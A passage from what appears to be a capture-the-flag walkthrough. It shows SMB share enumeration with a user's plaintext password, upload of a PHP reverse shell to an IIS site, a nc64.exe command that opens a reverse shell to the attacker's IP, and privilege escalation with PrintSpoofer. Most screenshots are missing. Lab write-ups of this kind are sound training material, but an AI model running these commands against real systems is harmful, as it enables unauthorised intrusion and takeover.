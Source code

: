 ![image.png](image%207.png)

I found an interesting note:

![image.png](image%208.png)

Checking shares:

```bash
sudo nxc smb $IP -u 'tyler'  -p '92g!mA8BGjOirkL%OG*&' --shares
```

![image.png](image%209.png)

```bash
smbclient //$IP/new-site -U tyler
```

![image.png](image%2010.png)

It seems this is a default IIS website we encountered on port 8808.

I see that site uses `PHP` I am gonna put there a `PHP` reverse shell.

![image.png](image%2011.png)

![image.png](image%2012.png)

After executing it I am in:

![image.png](image%2013.png)

For some reason shell kept dying so I am gonna put there a `nc64.exe` and get another shell.

```bash
c:\tools\nc64.exe 10.10.14.23 4444 -e cmd
```

## 1st way

### Shell as iis appool\newsite

Checking privileges I see powerful privileges:

![image.png](image%2014.png)

I am gonna use `PrintSpoofer` to get NT Authority\System shell.

```powershell
.\PrintSpoofer.exe -i -c cmd
```

![image.png](image%2015.png)

## 2nd way
